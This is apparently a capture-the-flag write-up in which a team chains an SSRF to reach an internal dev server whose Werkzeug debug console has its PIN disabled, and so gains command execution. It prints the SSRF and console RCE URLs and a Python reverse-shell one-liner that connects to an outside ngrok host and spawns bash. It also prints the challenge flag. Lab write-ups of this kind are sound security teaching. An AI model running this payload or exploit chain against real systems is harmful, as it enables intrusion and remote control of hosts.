 # Triskel 3 : Dead end

## Web, 49 points

### Description

You are admin now... Anyway now you can't access any information or have more privileges so I guess it's the end of your journey haha!

by Remsio

### Solution

First thing we notice in the administration panel, after flagging Triskel 2, is the cookie entitled `confidential_documents` which contains, URL encoded `kontammadur_klanvour.prod.local:5001/documents`. We head back to our previously discovered SSRF to get more information with this link: http://10.44.128.134:8100/api/call_api.php?api=kontammadur_klanvour.prod.local. We got the associated IP address to this domain name with the response:
`Cant connect to API : 10.0.43.68`.

From this, we tried several things such as fetching `documents`, trying to inject another `documents` by replacing the targeted document with one we created on a server we manage, like if it was a REST API. These are some of our tries:
```bash
http://10.44.128.134:8100/api/call_api.php?api=10.0.43.68:5001/documents
http://10.44.128.134:8100/api/call_api.php?api=10.0.43.68:5001/documents/1
http://10.44.128.134:8100/api/call_api.php?api=10.0.43.68:5001/documents/_
```

We tried server-side template injection with `tplmap` (_cf_. https://github.com/epinna/tplmap), without any success. We tried fuzzing with `Burp` as we thought it was a REST API:
```bash
http://10.44.128.134:8100/api/call_api.php?api=10.0.43.68:5001/documents/{number}
```

This led us to a dead end too. Out of ideas, we even tried some NoSQLi: nothing again.

Finally, we got back to the administration panel and we noticed a green highlighted detail `API Powered by Werkzeug`. It is a Python WSGI web application library which is frequently used (_cf_. https://github.com/pallets/werkzeug). We were pretty sure the challenge was about that now. We directly tried to access `Werkzeug`'s console with this link: http://10.44.128.134:8100/api/call_api.php?api=10.0.43.68:5001/console. Still nothing.

We were hopeless and decided to launch a `dirb` on the IP address. We discovered then the `dev` machine at `10.0.43.74`. MAN! How did we not think about that before ? We could have found that more easily with the associated domain name `kontammadur_klanvour.dev.local` and this link to retrieve its IP address: http://10.44.128.134:8100/api/call_api.php?api=kontammadur_klanvour.dev.local.

We decided to try the same URLs we did for the production domain name then:
```bash
http://10.44.128.134:8100/api/call_api.php?api=10.0.43.74:5001/documents
http://10.44.128.134:8100/api/call_api.php?api=10.0.43.74:5001/documents/1
http://10.44.128.134:8100/api/call_api.php?api=10.0.43.74:5001/documents/2
http://10.44.128.134:8100/api/call_api.php?api=10.0.43.74:5001/console
```

And results were quite different, we noticed notably that the application had the debugger mode enabled and in one document, someone deactivated the PIN to access the `Werkzeug` console: 
```
Are you kidding me? Who deactivated the PIN to access dev platform console??? ヽ(｀Д´)ノ      
```

From this, we documented ourselves a bit more with these resources https://book.hacktricks.xyz/pentesting/pentesting-web/werkzeug, https://github.com/its-arun/Werkzeug-Debug-RCE and some `Werkzeug` code at [https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py). We ended up with a Remote Command Execution (RCE), _e.g._ with this dummy link: [http://10.44.128.134:8100/api/call_api.php?api=10.0.43.74:5001/console?__debugger__=yes%26cmd=ls%26frm=0%26s=RFM0zsH8cyFS5fS33t0d](http://10.44.128.134:8100/api/call_api.php?api=10.0.43.74:5001/console?__debugger__=yes%26cmd=ls%26frm=0%26s=RFM0zsH8cyFS5fS33t0d). At the time we were on this challenge, a team already solved the next step, hence we thought it would be better if we get a reverse shell directly to flag Triskel 3 and to be more comfortable for Triskel 4, that's what we did.

We struggled a lot to get this reverse shell as `Werkzeug` configuration made it impossible for us to execute multiple commands at the same time, thereby we couldn't get two reverse shells at a time. Which means that if a command is being processed by `Werkzeug` we can't do anything else with the application. For every wrong command we did, the server crashed and we had to ask the staff to reboot our machine, that was exhausting.

With some specific URL encoding with `CyberChef` and timeout handling to avoid getting stuck and asking for a reboot, we ended up with a reverse shell with this payload:
```python
import os; os.system("timeout 600 python -c \"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('2.tcp.ngrok.io',19194));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn('/bin/bash')\"")
```

Then we flag:
```bash
root@kontammadur_klanvour:/app# cat /flag.txt
NORZH{FLASK_C0ns0l3_RCE_without_pin_seriously.._wait_did_I_land?}
```
